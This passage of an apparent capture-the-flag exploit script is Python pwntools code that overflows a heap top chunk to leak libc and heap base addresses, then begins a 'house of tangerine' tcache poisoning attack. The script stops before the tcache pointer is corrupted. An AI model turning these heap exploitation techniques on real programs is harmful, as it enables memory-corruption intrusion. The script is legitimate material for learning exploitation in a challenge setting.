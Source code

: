 ```python
def edit(index,data):
    p.sendlineafter(b'>>', b'3')
    p.sendlineafter(b'index:', str(index).encode())
    p.sendafter(b'data:', data)

def show(index):
    p.sendlineafter(b'>>', b'2')
    p.sendlineafter(b'index:', str(index).encode())
    p.recvline();
    return p.recvline().strip()

# first need a libc and heap base leak

create(0, 256, 256*b"A" + p64(0) + p64(0xc61)) # create an overflow top chunk size, 'house of orange' style
create(1, 0xf98, b"firstlargechunk") # this will be used later, but here forces top chunk into unsorted bin

# original top is now in unsorted bins because its size is too big for tcache bins

# leak a libc address, by carving a portion from our unsorted bin 
# which has a libc address in it at 8: and which gets preserved in the new alloc

create(2, 24, b"LEAKADDD")
data = show(2)
data = u64(data[-6:].ljust(8,b'\x00'))
print('leaked libc: ' + hex(data))
libc_base = data - 0x204120 # calculated using vmmap and comparing libc base the above
print('libc\'s base: ' + hex(libc_base))
libc.address = libc_base

# do the same again, this time for a heap address at position 16:

edit(2, b"LEAKADDDLEAKADDD")
data = show(2)
data = u64(data[-6:].ljust(8,b'\x00'))
print('leaked heap: ' + hex(data))
heap_base = data - 0x3a0 # calculated using vmmap and comparing to the above
print('heap\'s base: ' + hex(heap_base))

# now need to return to our second alloc (first big one) to overflow the new top
# need to overflow the top size to 0x60 (61 with in use bit) so it goes into a specific tcache bin
# under 0x410 means tcache, not unsorted. this is the 'house of tangerine' attack

payload = b"A"*0xf98
payload += p64(0x61) # target bin we want to hit, here 0x40 + 0x20
edit(1, payload)
create(3, 0xf98, b"secondlargechunk")

# top chunk will now be in tcache 0x40 (this is the second top chunk, after the original we used for leaks)

payload = b"secondlargechunk"
payload += b"B"*(0xf98 - len(payload))
payload += p64(0x61)
edit(3, payload)
create(4, 0x1000, b"thirdlargechunk")

# new top chunk will be in tcache 0x40, linked to the first one

# need to calculate the corrupted tcache address (which is xor encoded with portions of its memory address)
```